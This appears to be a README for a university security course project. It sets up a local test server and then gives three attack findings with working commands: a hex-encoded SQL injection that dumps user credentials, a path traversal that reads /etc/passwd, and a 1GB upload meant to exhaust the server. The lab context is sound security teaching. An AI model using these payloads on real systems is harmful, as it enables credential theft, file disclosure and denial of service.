 # csci4271-proj2
- Let url be the path to access 443
"enter" means putting the string in the search bar in web browser, 
lines without "enter" is input in terminal

Running the program:
git clone...
./install.sh
make
sudo ./bcpwm-server
-> Change to another terminal, navigate to the same directory

Setting up the database
- Adding a user with hexmail = "1", hexpass = "2":
enter "<url>/init_client/31/32"
- Confirm user added:
enter "<url>/confirm-client/31/32/<token>"
- Adding a rule
enter "<url>/post-rule/init/admin/1"

# Finding 1: Inject SQL to extract all user credentials
Expected result: List of all users and passwords
payload=$(echo "' UNION SELECT user, password FROM user_pw_table;--" | xxd -p)
curl -k "<url>/init_client/${payload}/31"

# Finding 2: Inject '../' into the file path parameter to read unauthorized files
Expected result: Contents of /etc/passwd
payload=$(echo "../../etc/passwd" | xxd -p)
enter "<url>/get_rule/${payload}"

# Finding 3: Generate a large file (1GB) and upload it
Expected result: Server becomes unresponsive or logs indicate resource exhaustion.
dd if=/dev/zero of=largefile.txt bs=1M count=1024
curl -X POST -F "file=@largefile.txt" -k "<url>/post-rule/init/validsite/validuser"





